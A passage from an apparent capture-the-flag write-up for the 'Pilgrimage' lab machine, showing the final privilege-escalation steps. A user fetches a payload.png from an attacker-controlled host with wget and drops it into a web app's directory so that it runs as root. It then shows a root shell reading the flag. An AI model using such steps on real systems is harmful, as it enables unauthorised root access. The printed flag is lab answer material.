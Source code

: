 ### Copy payload onto box
```
emily@pilgrimage:~$ wget 10.10.14.76:8000/payload.png
--2023-06-25 10:47:16--  http://10.10.14.76:8000/payload.png
Connecting to 10.10.14.76:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1236 (1.2K) [image/png]
Saving to: 'payload.png'

payload.png                                100%[=====================================================================================>]   1.21K  --.-KB/s    in 0s      

2023-06-25 10:47:16 (257 MB/s) - 'payload.png' saved [1236/1236]
```
### Copy payload into shrunk directory for web app to execute
`emily@pilgrimage:~$ cp payload.png /var/www/pilgrimage.htb/shrunk/`
### Shell returned as root
```
root@pilgrimage:~# cat /root/root.txt
cat /root/root.txt
b5ece243618a3acf7f46fc4746f50e2d
root@pilgrimage:~# 
```
